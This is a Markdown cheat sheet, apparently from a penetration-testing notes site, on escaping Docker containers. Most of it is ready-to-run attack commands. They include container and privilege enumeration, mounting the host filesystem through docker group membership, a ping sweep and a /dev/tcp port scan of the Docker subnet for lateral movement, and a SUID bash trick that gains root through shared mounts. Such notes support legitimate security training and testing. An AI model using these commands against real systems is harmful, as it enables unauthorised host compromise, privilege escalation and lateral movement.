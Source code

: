 ```yaml
---
icon: docker
---
```


# Escaping Docker

{% hint style="info" %}
### <mark style="color:purple;">`Enumeration`</mark>

<mark style="color:purple;">**Check for the Presence of**</mark> <mark style="color:orange;">**`.dockerenv`**</mark>

* <mark style="color:purple;">Finding this file can confirm you're inside a container and give insight into the container environment.</mark>
* <mark style="color:purple;">Tools like</mark> <mark style="color:orange;">**`nsenter`**</mark> <mark style="color:purple;">or</mark> <mark style="color:orange;">**`docker-exploit`**</mark> <mark style="color:purple;">can be used to attempt escaping the container.</mark>
* <mark style="color:purple;">If the user is in the</mark> <mark style="color:orange;">**`docker`**</mark> <mark style="color:purple;">group, attempt to run the following command to mount the host filesystem and gain access to the host:</mark>

```sh
docker run -v /:/mnt -it bash bash
```

<mark style="color:red;">**`Identify Active Containers`**</mark>

* <mark style="color:purple;">List all running containers:</mark>

```sh
docker ps
```

* <mark style="color:purple;">Check for containers running with elevated privileges (</mark><mark style="color:orange;">**`--privileged`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`--cap-add`**</mark><mark style="color:purple;">).</mark>
* <mark style="color:purple;">Look for containers that share host namespaces or file systems.</mark>

<mark style="color:red;">**`Check for Docker Images (Local Images on Host)`**</mark>

```sh
docker images
```

<mark style="color:red;">**`Check for File Permissions Showing Numeric IDs`**</mark>

* <mark style="color:purple;">When the host's user information does not exist inside the container’s</mark> <mark style="color:orange;">**`/etc/passwd`**</mark> <mark style="color:purple;">file, file permissions will show numeric IDs instead of human-readable names.</mark>

<mark style="color:red;">**`Check for Access to Host Network Information`**</mark>

* <mark style="color:purple;">This file contains the routing table of the host system and can provide valuable insights into the host network that may help in lateral movement or further attacks:</mark>

```sh
cat /proc/net/fib_trie
```

<mark style="color:red;">**`Check for Mounted File Systems`**</mark>

* <mark style="color:purple;">Mounting directories or files from the host system into the container exposes host data to the container:</mark>

```sh
cat /proc/mounts
```

```sh
mount | grep <directory>
```

<mark style="color:red;">**`Verify Container Privileges`**</mark>

* <mark style="color:purple;">Look for containers running as root or with</mark> <mark style="color:orange;">**`--privileged`**</mark> <mark style="color:purple;">mode:</mark>

{% code title="Container’s settings" %}
```sh
docker inspect
```
{% endcode %}

* <mark style="color:purple;">See if it is running as root:</mark>

```sh
cat /proc/self/status
```

* <mark style="color:purple;">Check the process inside the container:</mark>

```sh
ps aux
```

<mark style="color:red;">**`Test for Namespace Leaks`**</mark>

* <mark style="color:purple;">Check the namespaces that the container uses:</mark>

```sh
cat /proc/self/ns/
```

<mark style="color:red;">**`Investigate Container File System for SUID/SGID Binaries`**</mark>

```sh
find / -type f \( -perm -4000 -o -perm -2000 \)
```

<mark style="color:red;">**`Check for Docker Socket Exposure`**</mark>

```sh
mount | grep docker.sock
```

<mark style="color:red;">**`Look for Docker Vulnerabilities and Misconfigurations`**</mark>

```sh
cat /etc/docker/daemon.json
```

<mark style="color:red;">**`Investigate the private virtual network`**</mark>

* <mark style="color:purple;">Docker containers typically run in a private virtual network created by Docker, and the default network uses a subnet in the range</mark> <mark style="color:orange;">**`172.16.0.0/12`**</mark>

{% code title="Ping Sweep" overflow="wrap" %}
```bash
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
{% endcode %}

{% code title="Port Scan" overflow="wrap" %}
```bash
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:red;">**`File Ownership Manipulation via Shared Mounts`**</mark>

* <mark style="color:purple;">Check permissions and ownership when you create a file from host and container:</mark>

{% code lineNumbers="true" %}
```sh
touch from_host
touch from_container
```
{% endcode %}

* <mark style="color:purple;">If the container is miss configured and can creates files as a</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">, and you can access the files created by the host on the container:</mark>&#x20;
  1. <mark style="color:orange;">**`From the host`**</mark><mark style="color:purple;">, copy</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">in to the mounted directory.</mark>
  2. <mark style="color:orange;">**`From the container`**</mark><mark style="color:purple;">, change the ownership and permissions of</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">.</mark>
  3. <mark style="color:purple;">Execute</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">as</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">.</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
cp /bin/bash .
chown root:root bash; chmod 4777 bash
./bash -p
```
{% endcode %}
{% endhint %}

***

